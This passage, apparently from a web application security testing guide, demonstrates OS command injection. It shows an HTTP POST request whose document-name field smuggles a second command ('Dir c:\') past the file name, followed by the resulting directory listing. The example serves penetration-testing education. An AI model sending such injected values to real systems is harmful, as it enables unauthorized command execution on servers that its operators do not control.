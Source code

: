 In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following (`https://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: https://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.
